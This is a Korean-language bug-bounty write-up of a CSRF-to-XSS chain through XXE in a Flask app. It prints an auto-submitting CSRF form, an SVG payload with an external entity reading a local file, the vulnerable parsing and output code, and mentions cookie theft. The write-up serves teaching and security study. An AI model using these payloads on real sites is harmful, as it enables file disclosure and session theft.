 # csrf2xss-via-XXE_ver2

---

버그바운티 케이스 분석

---

### 전체 구성

- 시나리오
    
    ```bash
    ┌───────────────┐
    │ 공격자 사이트 │
    └───────┬───────┘
            │
            │ CSRF HTML
            │ (자동 제출 form)
            │
            ▼
    ┌─────────────────────────────┐
    │ 피해자 브라우저 (로그인中)   │
    └──────────┬──────────────────┘
               │
               │ POST /profile/update
               │ profileXML = 
               │   └ SVG/XML payload
               │      - XXE 선언
               │      - XSS 스크립트 포함
               │
               ▼
    ┌─────────────────────────────┐
    │ Flask 서버                   │
    ├─────────────────────────────┤
    │ 1. profileXML 수신          │
    │ 2. xmltodict.parse() 호출   │
    │    └ XXE 발동               │
    │       (ex. /flag.txt 읽음)   │
    │ 3. 파싱 결과 HTML 출력      │
    │    └ Escape 안 함           │
    └──────────┬──────────────────┘
               │
               │ Response:
               │ Hello <script>...</script>FLAG{...}
               │
               ▼
    ┌─────────────────────────────┐
    │ 피해자 브라우저              │
    ├─────────────────────────────┤
    │ 1. XSS 스크립트 실행         │
    │    └ fetch(...)              │
    │       → 공격자 서버로 쿠키  │
    │ 2. FLAG 화면에 노출         │
    └─────────────────────────────┘
    
    ```
    

---

## CSRF2XSS

```bash
<form action="https://target.com/profile/update" method="POST">
  <input type="hidden" name="name" value="<script>alert(1)</script>">
</form>

<script>
  document.forms[0].submit();
</script>
```

→ 피해자 세션으로 이 요청이 전송됨.

→ 서버가 name을 저장하거나 화면에 출력할 때 Escape 안 하면

```
Hello <script>alert(1)</script>!
```

→ **XSS 터짐.**

> “SVG를 통해 XSS 실행을 위한 JS 코드를 XML로 주입하고, 이걸 통해 CSRF-XSS를 터트리는 버그바운티 케이스이다.”
> 

---

### 🔥 전체 시나리오

### (1) 공격자가 CSRF 페이지를 만든다

- 공격자 사이트에 아래 HTML 폼을 숨겨놓음

```html
html
복사편집
<html>
  <body onload="document.forms[0].submit()">
    <form action="http://target:5000/profile/update" method="POST">
      <input type="hidden" name="profileXML" value="
        <?xml version='1.0' standalone='yes'?>
        <!DOCTYPE foo [
          <!ENTITY xxe SYSTEM 'file:///flag.txt'>
        ]>
        <svg xmlns='http://www.w3.org/2000/svg'>
          <text><![CDATA[
            <script>alert('XSS')</script>&xxe;
          ]]></text>
        </svg>
      ">
    </form>
  </body>
</html>

```

- **CSRF가 하는 역할** →
    
    피해자가 로그인된 상태에서 위 페이지를 방문하게 만드는 것
    
    → 피해자 세션 쿠키가 자동 전송됨
    

---

### (2) 피해자가 페이지를 열자마자 submit

→ 피해자 세션으로 아래 요청이 서버로 전송됨

```bash

POST /profile/update
Content-Type: application/x-www-form-urlencoded

profileXML=<?xml ... SVG payload ...>

```

---

### (3) 서버가 profileXML을 파싱

- 서버 코드:
    
    ```python
    
    xml_payload = request.form.get("profileXML")
    parsed_data = xmltodict.parse(xml_payload)
    text = parsed_data["svg"]["text"]
    
    ```
    
- 이때 `&xxe;` 가 `/flag.txt` 내용으로 대체됨 (XXE)

→ 파싱된 값:

```html

<script>alert('XSS')</script>FLAG{xxe_success}

```

---

### (4) 서버가 HTML에 그대로 출력

예)

```python

html_response = f"Hello {text}!"

```

→ 응답:

```php

Hello <script>alert('XSS')</script>FLAG{xxe_success}!

```

- 여기서 **XSS가 발동**
    - 피해자 브라우저에서 alert 뜸
    - 쿠키 탈취 가능





## ref: 
[Unveiling CSRF-to-XSS and XXE in a Single Request](https://medium.com/@nocley/b3e260d5477d)
